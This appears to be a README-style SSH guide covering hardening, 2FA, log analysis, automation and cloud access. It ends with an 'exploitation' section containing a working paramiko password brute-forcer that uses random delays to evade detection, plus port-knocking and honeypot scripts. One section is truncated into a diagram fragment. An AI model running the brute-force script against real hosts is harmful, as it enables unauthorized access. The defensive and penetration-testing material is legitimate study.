



# [̲̅S][̲̅S][̲̅H] Mastery: Advanced Techniques for Security

```ascii
 ____  ____  _   _   __  __           _            
/ ___|| ___|| | | | |  \/  | __ _ ___| |_ ___ _ __ 
\___ \|___ \| |_| | | |\/| |/ _` / __| __/ _ \ '__|
 ___) |___) |  _  | | |  | | (_| \__ \ ||  __/ |   
|____/|____/|_| |_| |_|  |_|\__,_|___/\__\___|_|   
```

## Table of Contents
10. [🛡️ Hardening SSH Security](#-hardening-ssh-security)
11. [🔍 SSH Auditing and Logging](#-ssh-auditing-and-logging)
12. [🔄 SSH Automation and Scripting](#-ssh-automation-and-scripting)
13. [🌐 SSH in Cloud Environments](#-ssh-in-cloud-environments)
14. [🧪 SSH Exploitation](#-ssh-exploitation)

---

## 🛡️ Hardening SSH Security

Enhance your SSH security posture by employing these advanced techniques designed to create a robust defense against potential threats. Each step contributes to building a multi-layered security framework that mitigates risks and fortifies your SSH environment.

1. **Fortify Encryption**
   Improve encryption strength by configuring robust ciphers, MACs, and key exchange algorithms. This ensures the confidentiality and integrity of data transmitted over SSH.

   ```bash
   # Edit /etc/ssh/sshd_config
   sudo nano /etc/ssh/sshd_config

   # Add or modify these lines
   Ciphers chacha20-poly1305@openssh.com,aes256-gcm@openssh.com
   MACs hmac-sha2-512-etm@openssh.com,hmac-sha2-256-etm@openssh.com
   KexAlgorithms curve25519-sha256@libssh.org,diffie-hellman-group16-sha512

   # Restart SSH service
   sudo systemctl restart sshd
   ```

   Description: These commands update the SSH configuration to use strong, modern encryption algorithms, enhancing the security of SSH connections.

2. **Automate Key Rotation**
   Implement automated key rotation to regularly update SSH keys, minimizing the risk of compromised credentials. Regular key rotation is a vital aspect of managing the lifecycle of SSH keys.

   ```bash
   #!/bin/bash
   NEW_KEY="id_ed25519_$(date +%Y%m%d)"
   ssh-keygen -t ed25519 -f ~/.ssh/$NEW_KEY -C "rotated_key_$(date +%Y-%m-%d)"
   ssh-copy-id -i ~/.ssh/$NEW_KEY.pub user@remote_host
   sed -i "s/IdentityFile ~\/.ssh\/id_ed25519/IdentityFile ~\/.ssh\/$NEW_KEY/" ~/.ssh/config
   ssh user@remote_host "sed -i '/old_key/d' ~/.ssh/authorized_keys"
   ```

   Description: This script generates a new ED25519 key, copies it to the remote host, updates the local SSH config, and removes the old key from the remote authorized_keys file.

3. **Implement Two-Factor Authentication (2FA)**
   Strengthen authentication mechanisms by integrating two-factor authentication (2FA), providing an additional layer of security beyond traditional passwords.

   ```bash
   # Install Google Authenticator PAM module
   sudo apt-get install libpam-google-authenticator

   # Configure PAM for SSH
   echo "auth required pam_google_authenticator.so" | sudo tee -a /etc/pam.d/sshd

   # Enable challenge-response authentication in SSH config
   echo "ChallengeResponseAuthentication yes" | sudo tee -a /etc/ssh/sshd_config

   # Restart SSH service
   sudo systemctl restart sshd

   # Set up 2FA for the current user
   google-authenticator
   ```

   Description: These commands install and configure Google Authenticator for SSH, enabling 2FA for enhanced security.

### Security Architecture Overview


**Screenshot Description:**
This image shows a detailed diagram of the SSH security architecture. It's divided into three main sections: the client-side, the network, and the server-side. On the client-side, you can see various SSH clients (PuTTY, OpenSSH) connecting through different authentication methods (passwords, keys, 2FA). The network section illustrates encrypted data tunnels. The server-side shows the SSH daemon, along with security modules like PAM, firewall rules, and logging mechanisms. Arrows indicate the flow of data and authentication processes.

<details>
<summary>🌟 Field Report: Financial Sector Deployment</summary>

Operation "Vault Guard" deployed at ████████ Bank:

1. Quarterly key rotation protocol.
2. Hardware Security Module (HSM) integration for key safeguarding.
3. Geo-fencing access control based on IP intelligence.
4. Real-time monitoring and alerting for anomalous SSH activity.

**Result**: Achieved a multi-layered defense capable of withstanding advanced persistent threats while ensuring regulatory compliance.

</details>

---

## 🔍 SSH Auditing and Logging

Implement comprehensive surveillance on your SSH channels to detect and respond to potential security threats:

1. **Enhanced Reconnaissance**
   Configure verbose logging to capture detailed information about SSH connections and activities.

   ```bash
   # Edit /etc/ssh/sshd_config
   sudo nano /etc/ssh/sshd_config

   # Add or modify this line
   LogLevel VERBOSE

   # Restart SSH service
   sudo systemctl restart sshd
   ```

   Description: This configuration enables verbose logging for SSH, providing more detailed information about connections and activities.

2. **Centralized Intelligence Gathering**
   Set up centralized logging to collect SSH logs from multiple servers in one location for easier analysis.

   ```bash
   # On the central log server, edit /etc/rsyslog.conf
   sudo nano /etc/rsyslog.conf

   # Add these lines to enable TCP syslog reception
   module(load="imtcp")
   input(type="imtcp" port="514")

   # On each SSH server, edit /etc/rsyslog.d/10-ssh.conf
   sudo nano /etc/rsyslog.d/10-ssh.conf

   # Add this line to forward SSH logs
   if $programname == 'sshd' then @@central_log_server:514

   # Restart rsyslog on all servers
   sudo systemctl restart rsyslog
   ```

   Description: These configurations set up a central log server to collect SSH logs from multiple servers, facilitating centralized monitoring and analysis.

3. **Covert Data Management**
   Implement log rotation to manage log file sizes and retention periods effectively.

   ```bash
   # Create or edit /etc/logrotate.d/ssh
   sudo nano /etc/logrotate.d/ssh

   # Add these lines
   /var/log/ssh.log {
       rotate 7
       daily
       compress
       missingok
       notifempty
   }
   ```

   Description: This configuration sets up log rotation for SSH logs, keeping them manageable and ensuring older logs are archived or deleted as needed.

### 🐍 Clandestine Log Analyzer

Here's a Python script to analyze SSH logs and identify potential security issues:

```python
import re
import sys
from collections import Counter

def analyze_ssh_log(log_file):
    ip_pattern = r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}'
    failed_attempts, successful_logins = Counter(), Counter()

    with open(log_file, 'r') as f:
        for line in f:
            if 'Failed password' in line:
                ip = re.search(ip_pattern, line)
                if ip: failed_attempts[ip.group()] += 1
            elif 'Accepted publickey' in line:
                ip = re.search(ip_pattern, line)
                if ip: successful_logins[ip.group()] += 1

    print("Top 5 IPs with failed password attempts:")
    for ip, count in failed_attempts.most_common(5):
        print(f"{ip}: {count}")

    print("\nTop 5 IPs with successful logins:")
    for ip, count in successful_logins.most_common(5):
        print(f"{ip}: {count}")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python ssh_log_analyzer.py /path/to/ssh.log")
        sys.exit(1)
    analyze_ssh_log(sys.argv[1])
```

Description: This Python script analyzes SSH logs to identify patterns of failed login attempts and successful logins, helping to detect potential brute-force attacks or unusual access patterns.

### Intelligence Analysis Pipeline




**Screenshot Description:**
This image displays a comprehensive SSH Intelligence Dashboard. The dashboard is divided into several panels. The top panel shows a line graph of SSH activity over time, with different colors indicating successful logins, failed attempts, and other events. Below, there's a world map with heat spots indicating the geographic distribution of SSH connections. On the right, there's a list of top IP addresses with their associated risk scores. The bottom panel features a real-time feed of SSH events, each with a colored indicator for its threat level.

<details>
<summary>Field Report: SOC Implementation</summary>

Operation "Vigilant Eye" deployed at ████████ Security Operations Center:

1. SIEM integration for real-time SSH log analysis
2. AI-driven anomaly detection in access patterns
3. Automated countermeasures against suspicious SSH activities
4. Threat intel feed correlation with SSH traffic

Result: Proactive threat identification and rapid incident response capabilities, significantly reducing the mean time to detect and respond to SSH-based attacks.

</details>

---

## 🔄 SSH Automation and Scripting

Unleash the power of automated SSH operations to streamline management and increase efficiency:

1. **Parallel Execution Protocol**
   Execute commands on multiple servers simultaneously for efficient management.

   ```bash
   #!/bin/bash
   hosts=(server1 server2 server3)
   command="uptime"
   for host in "${hosts[@]}"; do
       ssh "$host" "$command" &
   done
   wait
   ```

   Description: This script executes a command (in this case, "uptime") on multiple servers in parallel, allowing for efficient management of multiple systems.

2. **Key Distribution Algorithm**
   Automate the process of distributing SSH keys to multiple servers.

   ```bash
   #!/bin/bash
   key_file="$HOME/.ssh/id_ed25519.pub"
   hosts_file="targets.txt"
   while read -r host; do
       ssh-copy-id -i "$key_file" "$host"
   done < "$hosts_file"
   ```

   Description: This script reads a list of target hosts from a file and distributes the specified SSH public key to each of them, streamlining the key distribution process.

3. **Dynamic Asset Reconnaissance**
   Automatically discover and inventory SSH-accessible hosts in a cloud environment.

   ```python
   #!/usr/bin/env python3
   import json
   import subprocess

   def get_ssh_hosts():
       result = subprocess.run(["aws", "ec2", "describe-instances", "--query", "Reservations[*].Instances[*].PublicDnsName", "--output", "json"], capture_output=True, text=True)
       hosts = json.loads(result.stdout)
       return [host for sublist in hosts for host in sublist if host]

   inventory = {
       "all": {
           "hosts": get_ssh_hosts(),
           "vars": {
               "ansible_user": "ec2-user",
               "ansible_ssh_private_key_file": "~/.ssh/aws_ops.pem"
           }
       }
   }
   print(json.dumps(inventory))
   ```

   Description: This Python script uses the AWS CLI to discover EC2 instances and generate an Ansible-compatible inventory, facilitating automated management of cloud resources.

### Automation Command Matrix




**Screenshot Description:**
This image showcases an SSH Automation Command Center interface. The main screen is divided into four quadrants. The top-left quadrant displays a list of active SSH connections with status indicators. The top-right shows a real-time log of automated tasks being executed. The bottom-left quadrant features a network topology map, highlighting the paths of automated SSH connections. The bottom-right quadrant presents performance metrics, including execution times, success rates, and error logs. A sidebar on the right provides quick access to common automation tasks and scripts.

<details>
<summary>Field Report: DevOps Pipeline Integration</summary>

Operation "Continuous Fortress" implemented at ████████ Tech:

1. CI/CD pipeline with ephemeral SSH key generation
2. Just-in-time SSH access provisioning for deployment agents
3. Automated key rotation synced with secrets management vault
4. On-demand SSH tunneling for secure resource access during deployments
5. SSH-based health checks and rollback protocols

Result: Highly secure, efficient, and scalable deployment pipeline capable of managing complex infrastructure with minimal human intervention.

</details>

---

## 🌐 SSH in Cloud Environments

Navigate the complexities of SSH in the cloud with these advanced strategies:

1. **Ephemeral Access Protocol**
   Implement temporary, self-destructing SSH access for enhanced security in cloud environments.

   ```bash
   #!/bin/bash
   USERNAME="temp_user"
   EXPIRY_TIME="1 hour"

   # Create temporary user
   sudo useradd -m -s /bin/bash -e $(date -d "+$EXPIRY_TIME" +%Y-%m-%d) $USERNAME

   # Generate and set SSH key
   ssh-keygen -t ed25519 -f /tmp/$USERNAME -N ""
   sudo mkdir -p /home/$USERNAME/.ssh
   sudo cat /tmp/$USERNAME.pub > /home/$USERNAME/.ssh/authorized_keys
   sudo chown -R $USERNAME:$USERNAME /home/$USERNAME/.ssh
   sudo chmod 700 /home/$USERNAME/.ssh
   sudo chmod 600 /home/$USERNAME/.ssh/authorized_keys

   echo "Temporary access granted to $USERNAME. Key:"
   cat /tmp/$USERNAME
   ```

   Description: This script creates a temporary user with SSH access that automatically expires after a specified time, enhancing security in cloud environments.

2. **
3. Expiry Mechanism]
    C --> G[Global Command Execution]
    C --> H[Cross-Region Sync]
    D --> I[Secure Private Access]
    D --> J[Session Management]
```

This diagram illustrates the key components and relationships in a cloud-based SSH architecture, emphasizing security and scalability across multiple regions.

---

## 🧪 SSH Exploitation

Enhance your penetration testing arsenal with advanced SSH techniques:

1. **Brute Force Evasion Tactics**
   Implement adaptive brute-force techniques to evade detection.

   Command:
   ```bash
   nano adaptive_brute_force.py
   ```

   Script content:
   ```python
   import paramiko
   import time
   import random

   def ssh_brute_force(host, username, wordlist):
       client = paramiko.SSHClient()
       client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

       with open(wordlist, 'r') as f:
           passwords = f.read().splitlines()

       for password in passwords:
           try:
               client.connect(host, username=username, password=password, timeout=5)
               print(f"[+] Password found: {password}")
               return password
           except paramiko.AuthenticationException:
               print(f"[-] Failed: {password}")
               time.sleep(random.uniform(1, 3))  # Random sleep to evade detection
           except Exception as e:
               print(f"[!] Error: {str(e)}")
               break

       client.close()
       return None

   host = 'target_host'
   username = 'admin'
   wordlist = 'passwords.txt'

   ssh_brute_force(host, username, wordlist)
   ```

   Description: This script demonstrates an adaptive brute-force approach, using random delays between attempts to evade detection. It's important to note that this should only be used for authorized penetration testing.

2. **Port Knocking Reconnaissance**
   Implement port knocking techniques to discover hidden SSH services.

   Command:
   ```bash
   nano port_knock.sh
   ```

   Script content:
   ```bash
   #!/bin/bash
   HOST="target_host"
   KNOCK_SEQUENCE="7000 8000 9000"

   for PORT in $KNOCK_SEQUENCE; do
       nmap -Pn --host_timeout 201 --max-retries 0 -p $PORT $HOST
   done

   echo "Knock sequence sent to $HOST"
   # Attempt SSH connection post-knock
   ssh -i ~/.ssh/id_rsa pentester@$HOST
   ```

   Description: This script performs a port knocking sequence to potentially reveal hidden SSH services. It's used to test the effectiveness of port knocking implementations.

3. **SSH Honeypot Deployment**
   Deploy an SSH honeypot to study attacker tactics and gather threat intelligence.

   Command:
   ```bash
   nano deploy_honeypot.sh
   ```

   Script content:
   ```bash
   #!/bin/bash

   # Install Cowrie SSH Honeypot
   sudo apt-get update && sudo apt-get install -y python3-pip git
   git clone https://github.com/cowrie/cowrie.git
   cd cowrie
   pip3 install -r requirements.txt
   cp cowrie.cfg.dist cowrie.cfg

   # Start Honeypot in Background
   ./bin/cowrie start

   echo "SSH Honeypot deployed. Monitoring incoming connections."
   ```

   Description: This script sets up and deploys the Cowrie SSH honeypot, which can be used to safely observe and analyze potential SSH attacks without risking real systems.

### 🕵️‍♂️ SSH Exploitation Diagram



This diagram illustrates the relationships between various SSH exploitation techniques and their applications in penetration testing and security research.


This advanced SSH pentesting dashboard shows:

1. Live Brute-Force Attacks: A real-time display of ongoing password attempts, with a color-coded success rate indicator.
2. Port Knocking Patterns: Visual representation of various port knocking sequences, highlighting successful patterns.
3. Honeypot Activity Monitor: A live feed of connections to the honeypot, showcasing attacker origins and tactics.
4. Credential Analysis: Charts breaking down harvested usernames and password patterns.
5. Network Map: An interactive diagram showing the target network structure and potential entry points.
6. Attack Timeline: A chronological view of all penetration testing activities, from reconnaissance to exploitation.

This dashboard helps pentesters visualize their progress, identify vulnerabilities, and adapt their strategies in real-time for more effective SSH-based penetration testing.

Objective: Elevate penetration testing strategies with advanced SSH methods to identify, exploit, and analyze SSH vulnerabilities effectively.

Remember, with great power comes great responsibility. Use these advanced SSH techniques wisely and ethically to fortify your digital fortresses and navigate the complexities of modern cybersecurity landscapes.

```ascii
   _____ _____ _    _   __  __           _                  ____                      _      _       _ 
  / ____/ ____| |  | | |  \/  |         | |                / __ \                    | |    | |     | |
 | (___| (___ | |__| | | \  / | __ _ ___| |_ ___ _ __ _   | |  | |_   _  ___ _ __ ___| |_ __| | __ _| |
  \___ \\___ \|  __  | | |\/| |/ _` / __| __/ _ \ '__| |  | |  | | | | |/ _ \ '__/ __| __/ _` |/ _` | |
  ____) |___) | |  | | | |  | | (_| \__ \ ||  __/ |   | | | |__| | |_| |  __/ |  \__ \ || (_| | (_| |_|
 |_____/_____/|_|  |_| |_|  |_|\__,_|___/\__\___|_|   |_|  \___\_\\__,_|\___|_|  |___/\__\__,_|\__,_(_)

```
